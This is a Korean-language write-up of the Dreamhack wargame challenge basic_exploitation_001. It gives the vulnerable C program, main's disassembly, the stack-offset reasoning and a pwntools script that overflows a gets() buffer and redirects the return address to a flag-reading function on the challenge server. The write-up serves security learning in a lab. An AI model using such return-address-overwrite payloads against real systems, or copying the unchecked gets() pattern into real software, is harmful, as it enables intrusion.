 # [basic_exploitation_001](https://dreamhack.io/wargame/challenges/3/) 
 
 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석들 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler); // SIGALRM이 발생하면 alarm_handler를 실행한다.
    alarm(30); // 30초 후에 SIGALRM을 발생시킴.
}


void read_flag() {
    system("cat /flag"); //shell 명령어 "cat /flag" 실행
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

## Exploit strategy
 read_flag() 함수를 실행시켜 shell 명령어 "cat /flag"를 실행하는 것이 이 문제의 목표라고 할 수 있다. 우선 pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 ```assembly
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
   0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```
lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다.
return address의 값을 read_flag() 함수의 주소로 채워주면 이 문제의 목표인 shell 명령어 "cat /flag"를 실행할 수 있을 것이다. pwndbg를 통하여 read_flag()의 주소를 알아보자.
```
pwndbg> print read_flag
$1 = {<text variable, no debug info>} 0x80485b9 <read_flag>
```
주소는 0x80485b9이다. 이제 Exploit script를 작성해보자. 

## Exploit script

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',15845) 

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

# payload 작성
payload = b"\x90"*132 # ebp+0x3까지 담을 더미 값 
payload += p32(0x80485b9) # return address에 들어갈 read_flag() 함수의 주소를 32bit packing(little endian의 byte 배열로 변경)

# payload + '\n'을 전송
p.sendline(payload) 

# 셸을 획득했으므로 interactive 함수 사용
p.interactive()
```
